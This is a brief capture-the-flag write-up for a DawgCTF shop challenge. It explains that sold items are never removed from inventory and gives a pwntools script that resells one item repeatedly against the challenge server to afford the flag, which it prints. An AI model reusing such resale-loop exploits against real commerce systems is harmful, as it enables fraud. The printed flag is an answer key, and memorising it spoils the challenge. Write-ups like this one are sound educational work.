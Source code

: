 # Tom nook the capitalist racoon

this was a C program to buy and sell items, our goal is to buy the flag which is worth 420000 bells<br>

```
Timmy: Welcome!
How can I help you today?
1. I want to sell
2. What's for sale?
3. See you later.
Choice: 2

8500 bells
Timmy: Here's what we have to sell today.
1. flimsy net - 400 bells
2. tarantula - 8000 bells
3. slingshot - 900 bells
4. sapling - 640 bells
5. cherry - 400 bells
6. flag - 420000 bells
```

when interacting with the program using netcat i noticed that if you buy an item and selling again<br>
it doesn't get removed from the inventory, so all we have to do is to buy one item and keep selling it<br>
until we accumulate enough money to buy the flag.<br>

[script.py](./script.py)
```python
#!/usr/bin/env python2

from pwn import *

conn = remote('ctf.umbccd.io', 4400)

#to sell all the items
for i in range(1,5):
    conn.sendline('1')
    conn.sendline(str(i))

#to buy an item
conn.sendline('2')
conn.sendline('2')

#keeps selling to accumulate money
for i in range(55):
    conn.sendline('1')
    conn.sendline('1')

#buy the flag
conn.sendline('2')
conn.sendline('6')
conn.sendline('1')

print conn.recvline_contains('DawgCTF')
conn.close()
```

### flag
DawgCTF{1nf1n1t3_t@rantul@$}
